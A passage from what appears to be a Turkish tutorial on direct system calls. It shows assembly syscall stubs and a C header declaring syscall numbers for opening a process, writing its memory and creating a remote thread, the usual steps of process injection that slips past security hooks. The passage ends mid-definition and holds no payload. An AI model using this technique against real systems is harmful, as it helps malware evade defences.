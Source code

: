 ```asm
	ret                             
My_NtCreateThreadEx ENDP 

My_NtWaitForSingleObject PROC 
	mov r10, rcx
	mov eax, NtWaitForSingleObjectSSN      
	syscall                        
	ret                             
My_NtWaitForSingleObject ENDP 
END
```

Daha sonra main.h header dosyasını güncelleyelim:

```c
#include <stdio.h>
#include <Windows.h>
#define STATUS_SUCCESS (NTSTATUS)0x00000000L

DWORD NtOpenProcessSSN;
DWORD NtAllocateVirtualMemorySSN;
DWORD NtWriteVirtualMemorySSN;
DWORD NtCreateThreadExSSN;
DWORD NtWaitForSingleObjectSSN;
DWORD NtCloseSSN;

#pragma region STRUCTURES
typedef struct _PS_ATTRIBUTE
{
    ULONG  Attribute;
    SIZE_T Size;
    union
    {
        ULONG Value;
        PVOID ValuePtr;
    } u1;
    PSIZE_T ReturnLength;
} PS_ATTRIBUTE, * PPS_ATTRIBUTE;

typedef struct _UNICODE_STRING
{
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES
{
    ULONG           Length;
    HANDLE          RootDirectory;
    PUNICODE_STRING ObjectName;
    ULONG           Attributes;
    PVOID           SecurityDescriptor;
    PVOID           SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

typedef struct _CLIENT_ID
{
    HANDLE UniqueProcess;
    HANDLE UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

typedef struct _PS_ATTRIBUTE_LIST
{
```
